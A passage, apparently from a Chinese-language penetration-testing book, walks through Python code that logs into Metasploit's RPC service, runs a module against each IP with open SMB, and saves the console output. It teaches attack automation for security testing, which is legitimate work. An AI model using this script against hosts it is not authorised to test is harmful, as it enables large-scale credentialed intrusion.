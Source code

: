 最后的函数实际上启动了与 MSFRPC 的连接，并针对特定主机执行相关命令。

```py
def run_commands(verbose, iplist, user, passwd, dom, port, file):
    bufsize = 0
    e = open(file, 'a', bufsize)
    done = False
```

脚本与 MSFRPC 建立连接，然后创建控制台，然后通过特定的`console_id`跟踪它。不要忘记，`msfconsole`可以有多个会话，因此我们必须将我们的会话跟踪到`console_id`。

```py
    client = msfrpc.Msfrpc({})
    client.login('msf','msfrpcpassword')
    try:
        result = client.call('console.create')
    except:
        sys.exit("[!] Creation of console failed!")
    console_id = result['id']
    console_id_int = int(console_id)
```

然后，脚本遍历了已确认具有活动 SMB 服务的 IP 地址列表。然后，脚本为每个 IP 地址创建了必要的命令。

```py
    for ip in iplist:
        if verbose > 0:
            print("[*] Building custom command for: %s") % (str(ip))
        command, module = build_command(verbose, user, 
          passwd, dom, port, ip)
        if verbose > 0:
            print("[*] Executing Metasploit module %s 
              on host: %s") % (module, str(ip)) 
```

然后将命令写入控制台，并等待结果。

```py
        client.call('console.write',[console_id, command])
        time.sleep(1)
        while done != True:
```

我们等待每个命令执行的结果，并验证返回的数据以及控制台是否仍在运行。如果是，我们延迟读取数据。一旦完成，结果将被写入指定的输出文件。

```py
            result = client.call('console.read',[console_id_int])
            if len(result['data']) > 1:
                if result['busy'] == True:
                    time.sleep(1)
                    continue
                else:
                    console_output = result['data']
                    e.write(console_output)
                    if verbose > 0:
                        print(console_output)
                    done = True
```
